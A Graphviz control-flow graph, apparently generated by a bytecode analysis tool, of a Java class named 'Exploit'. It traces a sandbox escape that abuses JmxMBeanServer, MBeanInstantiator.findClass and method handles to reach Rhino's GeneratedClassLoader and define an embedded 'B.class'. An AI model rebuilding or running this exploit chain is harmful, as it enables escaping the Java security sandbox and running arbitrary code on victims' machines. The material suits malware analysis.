 digraph "" {
    "r0 := @this: Exploit"
    "new java.io.ByteArrayOutputStream"
    "r0 := @this: Exploit"->"new java.io.ByteArrayOutputStream";
    "store.r r6"
    "new java.io.ByteArrayOutputStream"->"store.r r6";
    "load.r r6"
    "store.r r6"->"load.r r6";
    "specialinvoke <java.io.ByteArrayOutputStream: void <init>()>"
    "load.r r6"->"specialinvoke <java.io.ByteArrayOutputStream: void <init>()>";
    "push 8192"
    "specialinvoke <java.io.ByteArrayOutputStream: void <init>()>"->"push 8192";
    "newarray"
    "push 8192"->"newarray";
    "store.r r5"
    "newarray"->"store.r r5";
    "load.r r0"
    "store.r r5"->"load.r r0";
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"
    "load.r r0"->"virtualinvoke <java.lang.Object: java.lang.Class getClass()>";
    "push \"B.class\""
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"->"push \"B.class\"";
    "virtualinvoke <java.lang.Class: java.io.InputStream getResourceAsStream(java.lang.String)>"
    "push \"B.class\""->"virtualinvoke <java.lang.Class: java.io.InputStream getResourceAsStream(java.lang.String)>";
    "store.r r1"
    "virtualinvoke <java.lang.Class: java.io.InputStream getResourceAsStream(java.lang.String)>"->"store.r r1";
    "goto load.r r1"
    "store.r r1"->"goto load.r r1";
    "load.r r1"
    "goto load.r r1"->"load.r r1";
    "load.r r5"
    "load.r r1"->"load.r r5";
    "virtualinvoke <java.io.InputStream: int read(byte[])>"
    "load.r r5"->"virtualinvoke <java.io.InputStream: int read(byte[])>";
    "store.i r7"
    "virtualinvoke <java.io.InputStream: int read(byte[])>"->"store.i r7";
    "load.i r7"
    "store.i r7"->"load.i r7";
    "ifgt load.r r6"
    "load.i r7"->"ifgt load.r r6";
    "ifgt load.r r6"->"load.r r6";
    "virtualinvoke <java.io.ByteArrayOutputStream: byte[] toByteArray()>"
    "load.r r6"->"virtualinvoke <java.io.ByteArrayOutputStream: byte[] toByteArray()>";
    "virtualinvoke <java.io.ByteArrayOutputStream: byte[] toByteArray()>"->"store.r r1";
    "new com.sun.jmx.mbeanserver.JmxMBeanServerBuilder"
    "store.r r1"->"new com.sun.jmx.mbeanserver.JmxMBeanServerBuilder";
    "dup1.r"
    "new com.sun.jmx.mbeanserver.JmxMBeanServerBuilder"->"dup1.r";
    "specialinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: void <init>()>";
    "push \"\""
    "specialinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: void <init>()>"->"push \"\"";
    "push null"
    "push \"\""->"push null";
    "push null"->"push null";
    "virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: javax.management.MBeanServer newMBeanServer(java.lang.String,javax.management.MBeanServer,javax.management.MBeanServerDelegate)>"
    "push null"->"virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: javax.management.MBeanServer newMBeanServer(java.lang.String,javax.management.MBeanServer,javax.management.MBeanServerDelegate)>";
    "checkcast"
    "virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: javax.management.MBeanServer newMBeanServer(java.lang.String,javax.management.MBeanServer,javax.management.MBeanServerDelegate)>"->"checkcast";
    "virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServer: com.sun.jmx.mbeanserver.MBeanInstantiator getMBeanInstantiator()>"
    "checkcast"->"virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServer: com.sun.jmx.mbeanserver.MBeanInstantiator getMBeanInstantiator()>";
    "virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServer: com.sun.jmx.mbeanserver.MBeanInstantiator getMBeanInstantiator()>"->"dup1.r";
    "push \"sun.org.mozilla.javascript.internal.Context\""
    "dup1.r"->"push \"sun.org.mozilla.javascript.internal.Context\"";
    "push \"sun.org.mozilla.javascript.internal.Context\""->"push null";
    "virtualinvoke <com.sun.jmx.mbeanserver.MBeanInstantiator: java.lang.Class findClass(java.lang.String,java.lang.ClassLoader)>"
    "push null"->"virtualinvoke <com.sun.jmx.mbeanserver.MBeanInstantiator: java.lang.Class findClass(java.lang.String,java.lang.ClassLoader)>";
    "virtualinvoke <com.sun.jmx.mbeanserver.MBeanInstantiator: java.lang.Class findClass(java.lang.String,java.lang.ClassLoader)>"->"store.r r5";
    "push \"sun.org.mozilla.javascript.internal.GeneratedClassLoader\""
    "store.r r5"->"push \"sun.org.mozilla.javascript.internal.GeneratedClassLoader\"";
    "push \"sun.org.mozilla.javascript.internal.GeneratedClassLoader\""->"push null";
    "push null"->"virtualinvoke <com.sun.jmx.mbeanserver.MBeanInstantiator: java.lang.Class findClass(java.lang.String,java.lang.ClassLoader)>";
    "virtualinvoke <com.sun.jmx.mbeanserver.MBeanInstantiator: java.lang.Class findClass(java.lang.String,java.lang.ClassLoader)>"->"store.r r6";
    "store.r r6"->"load.r r6";
    "staticinvoke <java.lang.invoke.MethodHandles: java.lang.invoke.MethodHandles$Lookup publicLookup()>"
    "load.r r6"->"staticinvoke <java.lang.invoke.MethodHandles: java.lang.invoke.MethodHandles$Lookup publicLookup()>";
    "store.r r7"
    "staticinvoke <java.lang.invoke.MethodHandles: java.lang.invoke.MethodHandles$Lookup publicLookup()>"->"store.r r7";
    "load.r r7"
    "store.r r7"->"load.r r7";
    "push class \"Ljava/lang/invoke/MethodHandles$Lookup;\""
    "load.r r7"->"push class \"Ljava/lang/invoke/MethodHandles$Lookup;\"";
    "push \"findConstructor\""
    "push class \"Ljava/lang/invoke/MethodHandles$Lookup;\""->"push \"findConstructor\"";
    "push class \"Ljava/lang/invoke/MethodHandle;\""
    "push \"findConstructor\""->"push class \"Ljava/lang/invoke/MethodHandle;\"";
    "push class \"Ljava/lang/Class;\""
    "push class \"Ljava/lang/invoke/MethodHandle;\""->"push class \"Ljava/lang/Class;\"";
    "push 1"
    "push class \"Ljava/lang/Class;\""->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "push 0"
    "dup1.r"->"push 0";
    "push class \"Ljava/lang/invoke/MethodType;\""
    "push 0"->"push class \"Ljava/lang/invoke/MethodType;\"";
    "arraywrite.r"
    "push class \"Ljava/lang/invoke/MethodType;\""->"arraywrite.r";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>"
    "arraywrite.r"->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>";
    "virtualinvoke <java.lang.invoke.MethodHandles$Lookup: java.lang.invoke.MethodHandle findVirtual(java.lang.Class,java.lang.String,java.lang.invoke.MethodType)>"
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>"->"virtualinvoke <java.lang.invoke.MethodHandles$Lookup: java.lang.invoke.MethodHandle findVirtual(java.lang.Class,java.lang.String,java.lang.invoke.MethodType)>";
    "staticget <java.lang.Void: java.lang.Class TYPE>"
    "virtualinvoke <java.lang.invoke.MethodHandles$Lookup: java.lang.invoke.MethodHandle findVirtual(java.lang.Class,java.lang.String,java.lang.invoke.MethodType)>"->"staticget <java.lang.Void: java.lang.Class TYPE>";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class)>"
    "staticget <java.lang.Void: java.lang.Class TYPE>"->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class)>";
    "store.r r10"
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class)>"->"store.r r10";
    "push 3"
    "store.r r10"->"push 3";
    "push 3"->"newarray";
    "store.r r12"
    "newarray"->"store.r r12";
    "load.r r12"
    "store.r r12"->"load.r r12";
    "load.r r12"->"push 0";
    "push 0"->"load.r r7";
    "load.r r7"->"arraywrite.r";
    "arraywrite.r"->"load.r r12";
    "load.r r12"->"push 1";
    "push 1"->"load.r r5";
    "load.r r5"->"arraywrite.r";
    "arraywrite.r"->"load.r r12";
    "push 2"
    "load.r r12"->"push 2";
    "load.r r10"
    "push 2"->"load.r r10";
    "load.r r10"->"arraywrite.r";
    "arraywrite.r"->"load.r r12";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"
    "load.r r12"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "checkcast"->"push 0";
    "push 0"->"newarray";
    "newarray"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"store.r r12";
    "store.r r12"->"push 2";
    "push 2"->"newarray";
    "newarray"->"store.r r10";
    "store.r r10"->"load.r r10";
    "load.r r10"->"push 0";
    "push class \"Ljava/lang/String;\""
    "push 0"->"push class \"Ljava/lang/String;\"";
    "push class \"Ljava/lang/String;\""->"arraywrite.r";
    "arraywrite.r"->"load.r r10";
    "load.r r10"->"push 1";
    "push 1"->"push class \"Ljava/lang/invoke/MethodType;\"";
    "push class \"Ljava/lang/invoke/MethodType;\""->"arraywrite.r";
    "arraywrite.r"->"load.r r7";
    "load.r r7"->"push class \"Ljava/lang/invoke/MethodHandles$Lookup;\"";
    "push \"findVirtual\""
    "push class \"Ljava/lang/invoke/MethodHandles$Lookup;\""->"push \"findVirtual\"";
    "push \"findVirtual\""->"push class \"Ljava/lang/invoke/MethodHandle;\"";
    "push class \"Ljava/lang/invoke/MethodHandle;\""->"push class \"Ljava/lang/Class;\"";
    "push class \"Ljava/lang/Class;\""->"load.r r10";
    "load.r r10"->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>"->"virtualinvoke <java.lang.invoke.MethodHandles$Lookup: java.lang.invoke.MethodHandle findVirtual(java.lang.Class,java.lang.String,java.lang.invoke.MethodType)>";
    "virtualinvoke <java.lang.invoke.MethodHandles$Lookup: java.lang.invoke.MethodHandle findVirtual(java.lang.Class,java.lang.String,java.lang.invoke.MethodType)>"->"store.r r10";
    "push class \"Ljava/lang/ClassLoader;\""
    "store.r r10"->"push class \"Ljava/lang/ClassLoader;\"";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class)>"
    "push class \"Ljava/lang/ClassLoader;\""->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class)>";
    "store.r r15"
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class)>"->"store.r r15";
    "push 4"
    "store.r r15"->"push 4";
    "push 4"->"newarray";
    "store.r $r31"
    "newarray"->"store.r $r31";
    "load.r $r31"
    "store.r $r31"->"load.r $r31";
    "load.r $r31"->"push 0";
    "push 0"->"load.r r7";
    "load.r r7"->"arraywrite.r";
    "arraywrite.r"->"load.r $r31";
    "load.r $r31"->"push 1";
    "push 1"->"load.r r5";
    "load.r r5"->"arraywrite.r";
    "arraywrite.r"->"load.r $r31";
    "load.r $r31"->"push 2";
    "push \"createClassLoader\""
    "push 2"->"push \"createClassLoader\"";
    "push \"createClassLoader\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r31";
    "load.r $r31"->"push 3";
    "load.r r15"
    "push 3"->"load.r r15";
    "load.r r15"->"arraywrite.r";
    "arraywrite.r"->"load.r r10";
    "load.r r10"->"load.r $r31";
    "load.r $r31"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "checkcast"->"push 2";
    "push 2"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push 0"->"load.r r12";
    "load.r r12"->"arraywrite.r";
    "arraywrite.r"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"store.r r5";
    "store.r r5"->"push class \"Ljava/lang/Class;\"";
    "push class \"Ljava/lang/Class;\""->"push class \"Ljava/lang/String;\"";
    "push class \"Ljava/lang/String;\""->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push class \"[B\""
    "push 0"->"push class \"[B\"";
    "push class \"[B\""->"arraywrite.r";
    "arraywrite.r"->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>"->"store.r r12";
    "store.r r12"->"push 4";
    "push 4"->"newarray";
    "newarray"->"store.r r15";
    "store.r r15"->"load.r r15";
    "load.r r15"->"push 0";
    "push 0"->"load.r r7";
    "load.r r7"->"arraywrite.r";
    "arraywrite.r"->"load.r r15";
    "load.r r15"->"push 1";
    "push 1"->"load.r r6";
    "load.r r6"->"arraywrite.r";
    "arraywrite.r"->"load.r r15";
    "load.r r15"->"push 2";
    "push \"defineClass\""
    "push 2"->"push \"defineClass\"";
    "push \"defineClass\""->"arraywrite.r";
    "arraywrite.r"->"load.r r15";
    "load.r r15"->"push 3";
    "push 3"->"load.r r12";
    "load.r r12"->"arraywrite.r";
    "arraywrite.r"->"load.r r10";
    "load.r r10"->"load.r r15";
    "load.r r15"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "checkcast"->"push 3";
    "push 3"->"newarray";
    "newarray"->"store.r r6";
    "store.r r6"->"load.r r6";
    "load.r r6"->"push 0";
    "push 0"->"load.r r5";
    "load.r r5"->"arraywrite.r";
    "arraywrite.r"->"load.r r6";
    "load.r r6"->"push 2";
    "push 2"->"load.r r1";
    "load.r r1"->"arraywrite.r";
    "arraywrite.r"->"load.r r6";
    "load.r r6"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "virtualinvoke <java.lang.Class: java.lang.Object newInstance()>"
    "checkcast"->"virtualinvoke <java.lang.Class: java.lang.Object newInstance()>";
    "pop"
    "virtualinvoke <java.lang.Class: java.lang.Object newInstance()>"->"pop";
    "pop"->"load.r r0";
    "virtualinvoke <Exploit: void fileduestart()>"
    "load.r r0"->"virtualinvoke <Exploit: void fileduestart()>";
    "virtualinvoke <Exploit: void fileduestart()>"->"load.r r0";
    "virtualinvoke <Exploit: void start()>"
    "load.r r0"->"virtualinvoke <Exploit: void start()>";
    "goto return"
    "virtualinvoke <Exploit: void start()>"->"goto return";
    "return"
    "goto return"->"return";
    "store.r r0"
    "virtualinvoke <Exploit: void start()>"->"store.r r0";
    "ifgt load.r r6"->"load.r r6";
    "load.r r6"->"load.r r5";
    "load.r r5"->"push 0";
    "push 0"->"load.i r7";
    "virtualinvoke <java.io.ByteArrayOutputStream: void write(byte[],int,int)>"
    "load.i r7"->"virtualinvoke <java.io.ByteArrayOutputStream: void write(byte[],int,int)>";
}
